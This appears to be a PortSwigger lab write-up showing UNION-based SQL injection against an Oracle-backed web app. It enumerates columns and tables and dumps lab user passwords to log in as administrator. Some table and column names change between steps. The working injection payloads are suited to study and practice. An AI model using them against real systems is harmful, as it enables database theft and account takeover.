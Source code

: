 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/983c09c6-4616-46ad-8a3c-70e006ee683b)

## Solution:

Request captred and send to repeater

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7bac203b-7c76-4fdb-8fcb-66f7f2e7a0c8)

Determine number of columns -

`SELECT * FROM someTable WHERE category = '<CATEGORY>' 'UNION SELECT NULL,NULL FROM DUAL--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/1adb71d5-5ac6-4669-b412-c0cbcc5f0a50)

NO error which means there are 2 columns.

`SELECT * FROM someTable WHERE category = '<CATEGORY>'' UNION SELECT 'a','b' FROM DUAL--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a0493a63-70ca-4fed-ac09-a31619d0e49e)

Both columns have text data

List all tables -
We can list all the tables by querying `SELECT * FROM all_tables`

`SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM all_tables--`

We get a list of all the tables

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/fee7fc6b-f3c1-4cc6-b70b-119b7f77fb91)

i think the table we are looking for is `USERS_LYZGBQ` it look like a costom made table.

List all columns -

We can list all the columns by querying `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

`SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_BJMNXT'--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/73af0601-046c-42ea-86a0-c249bfc865c2)

The names of the columns containing usernames and passwords are.

`USERNAME_ISSOTW` and `PASSWORD_TBWIOO`

Retreive admin's password

`SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT USERNAME_XPYOVL,PASSWORD_BHTLLM FROM USERS_BJMNXT--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7573ef49-cb74-44d3-871e-1519b0ec24ce)

the passord retreived

administrator - `4kney960i4s57ay2ma7j` carlos - `4q18fjjalc0rgmhf0jvz` wiener - `1je2jams9t6486m4roxs`

Now try to login as administrator

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/db46e3dd-b9aa-4a1f-be31-efeafb0c5a24)

Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/77b1d187-67cd-4122-9eba-0c7ea003a182)


